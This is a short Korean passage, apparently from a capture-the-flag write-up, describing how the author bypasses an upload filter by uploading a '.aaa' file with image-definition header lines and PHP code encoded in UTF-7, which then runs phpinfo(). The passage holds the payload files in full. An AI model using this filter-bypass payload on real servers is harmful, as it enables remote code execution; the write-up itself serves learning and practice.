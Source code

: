 그럼 이제 새로운 `.aaa` 파일을 업로드 하는데, 코드의 내용을 `UTF-7`로 인코딩 해 업로드 하면 아마 자동으로 `UTF-7` 디코딩을 하여 실행할 수 있을 것이다.  

`code.aaa`라는 파일을 아래와 같이 만들었다.  

* code.aaa (원본)
```
#define test_width 1337
#define test_height 1337
<? phpinfo();
```

* code.aaa (UTF-7 버전)
```
#define test_width 1337
#define test_height 1337
+ADw?php phpinfo()+ADs-
```

`UTF-7 인코딩`은 [여기](http://toolswebtop.com/text/process/encode/utf-7)에서 했다.  

파일 두개를 업로드 한 결과 아래와 같이 드디어 `phpinfo()`를 실행할 수 있었다!  

![](/images/mingzzi/l33t-writeup/l33t_03.png)  
